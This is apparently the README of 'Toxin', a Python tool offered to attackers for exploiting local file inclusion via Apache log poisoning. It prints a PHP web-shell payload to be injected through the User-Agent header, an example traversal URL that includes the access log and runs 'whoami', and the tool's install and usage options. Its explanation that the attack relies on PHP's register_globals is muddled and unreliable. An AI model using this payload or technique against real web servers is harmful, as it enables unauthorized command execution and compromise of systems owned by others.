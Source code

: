 # Toxin

Toxin is an LFI (Local File Inclusion)/Log Pollution Exploitation Tool.

## Introduction

Toxin exploits a particular (and yet also common)type of 
Local File Inclusion (LFI) vulnerability wherein the attacker
is able to take advantage of PHP's `register_globals` setting. 

In this attack scenario, the attacker would craft a custom 
`User-Agent` header which would contain arbitrary PHP code
that would register a new global variable to the environment
like so:

```php
<?php system($_GET['cmd']); ?>
```

With the new malicious global variable registered, we can add it 
to a query string within a URL containing a file on the target host
which is vulnerable to inclusion and then use the file along with
the query string to execute arbitrary system-level commands, like so:

`http://target.tld/info.php?page=../../../../../var/log/apache/access.log&cmd=whoami`

There are number of common files which typically falls prey to this attack, 
Toxin does not attempt to fuzz for those files, but instead expects you, 
the attacker, to have prior knowledge of your target.

## Installation

`$ python setup.py install`

## Usage

```bash
  ______           _
 /_  __/___  _  __(_)___
  / / / __ \| |/_/ / __ \
 / / / /_/ />  </ / / / /
/_/  \____/_/|_/_/_/ /_/


Usage: toxin [OPTIONS]

  Toxin: Local File Inclusion Exploitation Tool

Options:
  -u, --url TEXT        URL to query
  -p, --parameter TEXT  Parameter to inject into User-Agent header
                        (Default: 'cmd')
  -c, --command TEXT    Command to Run
  -m, --mode TEXT       Mode (Inject or Exploit)
  -g, --paged           Paged Output
  --version             Show the version and exit.
  --help                Show this message and exit.
  -h                    Show this message and exit.
```
